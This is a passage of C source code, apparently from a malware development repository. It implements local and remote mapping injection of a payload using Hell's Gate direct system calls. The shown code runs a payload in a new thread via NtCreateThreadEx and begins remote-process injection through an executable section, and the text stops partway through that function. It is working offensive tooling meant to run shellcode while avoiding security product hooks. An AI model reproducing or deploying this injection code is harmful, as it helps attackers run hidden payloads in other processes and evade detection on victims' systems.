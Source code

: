 ```c
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pAddress);
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

//--------------------------------------------------------------------------	
	
	// Executing the payload via thread creation

	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
	if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

	
//--------------------------------------------------------------------------
	
	// Unmapping the local view - only when the payload is done executing
	HellsGate(pVxTable->NtUnmapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent((HANDLE)-1, pAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	
	// Closing the section handle
	HellsGate(pVxTable->NtClose.wSystemCall);
	if ((STATUS = HellDescent(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}

```

#### RemoteMappingInjectionViaSyscalls

```c
BOOL RemoteMappingInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection			= NULL;
	HANDLE				hThread				= NULL;
	PVOID				pLocalAddress		= NULL,
					    pRemoteAddress		= NULL;
	NTSTATUS			STATUS				= NULL;
	SIZE_T				sViewSize			= NULL;
	LARGE_INTEGER		MaximumSize 	    = {
			.HighPart = 0,
			.LowPart = sPayloadSize
	};

//--------------------------------------------------------------------------
	// Allocating local map view 
	
	HellsGate(pVxTable->NtCreateSection.wSystemCall);
	if ((STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
```